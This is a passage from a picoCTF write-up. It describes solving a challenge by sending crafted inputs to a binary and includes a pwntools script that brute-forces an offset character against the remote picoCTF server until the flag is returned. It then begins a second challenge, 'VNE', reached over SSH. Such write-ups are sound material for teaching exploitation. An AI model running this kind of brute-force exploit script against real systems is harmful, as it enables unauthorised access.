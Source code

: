 Trying that gets me the flag
![image](https://user-images.githubusercontent.com/113513376/228700159-429ed09f-5165-4484-ac18-3d09d9e152db.png)

But using remotely doesn't work
![image](https://user-images.githubusercontent.com/113513376/228700247-7b4307c0-f73b-4e66-ae88-e23d0989d4ff.png)

After asking in discord people says the binary on the remote is different from the one given (at least its offset)

That made me then make a brute force script on the offset 

```
#!/usr/bin/env python3

from pwn import *
import string

context.log_level = 'warning'

for i in string.printable:
    io = remote('saturn.picoctf.net', 54253)

    io.sendline('l' + i)
    io.sendline(b'w' * 4)
    io.sendline(b'd' * 47)
    io.sendline(b'wp')

    output = io.recvall()
    if b'picoCTF' in output:
        print(f"offset found {i}")
        offset = i 
        break

io = remote('saturn.picoctf.net', 54253)
io.sendline('l' + offset)
io.sendline(b'w' * 4)
io.sendline(b'd' * 47)
io.sendline(b'wp')
io.interactive()
```

Running it gives the flag
![image](https://user-images.githubusercontent.com/113513376/228701598-d6d8e82c-1010-4f54-b9cf-3a142cda80e5.png)
![image](https://user-images.githubusercontent.com/113513376/228701627-29196b3c-db1b-4dc1-ba23-67afc2de4748.png)


<h3> VNE </h3>
![image](https://user-images.githubusercontent.com/113513376/228703179-7349a3e6-6c9a-48e8-b2a5-c6ec27cec495.png)

After connecting to the ssh instance it shows this binary file
![image](https://user-images.githubusercontent.com/113513376/228703286-be5662c0-756e-41eb-87d0-1cf59f7eb357.png)
